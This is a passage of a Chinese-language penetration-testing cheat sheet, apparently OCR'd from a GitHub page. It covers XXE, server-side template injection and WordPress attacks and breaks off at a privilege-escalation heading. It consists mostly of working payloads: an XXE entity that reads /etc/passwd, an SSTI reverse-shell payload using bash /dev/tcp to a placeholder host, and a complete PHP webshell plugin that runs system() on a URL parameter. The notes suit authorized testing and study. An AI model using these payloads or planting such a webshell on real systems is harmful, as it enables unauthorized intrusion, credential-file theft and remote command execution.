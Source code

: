 ```xml-dtd
<!DOCTYPE test[
	<!ENTITY file SYSTEM
"file:///etc/passwd">
]>
<a>&file;</a>
```

-----

### SSTI

其原理与SQLI类似,都是因为没有对用户输入进行过滤,导致任意内容被解析执行,可造成RCE.

测试payload:`{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[abcxyz]`

反弹shell:`{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/<RHOST>/<RPORT> 0>&1"')}}`

----

### CMS

查找cms:`whatweb <url>`

#### Wordpress

REF:	WEEK-4

上传插件:

```php
<?php
/*
Plugin Name: Webshell
Plugin URI: https://github.com/busizhiya/
Description: Wordpress Webshell for Pentest
Version: 1.0
Author: bszy
Author URI: https://github.com/busizhiya/
License: https://github.com/busizhiya/
*/
if(isset($_GET['qaq']))
	{
  	system($_GET['qaq']);
	}
?>
```

访问:`http://example.com/wordpress/wp-content/plugins/wp-plugin-shell.php?qaq=id`

---

## 提权

### 升级Full TTY Shell
